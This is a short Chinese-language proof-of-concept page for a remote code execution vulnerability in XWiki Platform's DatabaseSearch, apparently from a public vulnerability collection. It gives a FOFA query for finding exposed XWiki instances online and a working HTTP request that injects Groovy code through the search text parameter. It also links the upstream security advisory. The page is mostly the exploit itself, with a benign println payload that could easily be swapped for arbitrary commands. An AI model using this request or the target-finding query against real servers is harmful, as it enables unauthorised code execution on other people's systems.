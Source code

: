 ## XWiki-Platform远程代码执行漏洞

XWiki 的数据库搜索允许通过搜索文本远程执行代码。这允许公共 wiki 的任何访问者或封闭 wiki 的用户远程执行代码，因为默认情况下所有用户都可以访问数据库搜索。这会影响整个 XWiki 安装的机密性、完整性和可用性。

## fofa

```
body="data-xwiki-reference"
```

## poc

```
GET /xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22MiTian%20from%22%20%2B%20%22%20search%20text%3A%22%20%2B%20%288888%20%2B%206666%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)
```

![image-20240621185205531](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211852577.png)

## 漏洞来源

- https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-2858-8cfx-69m9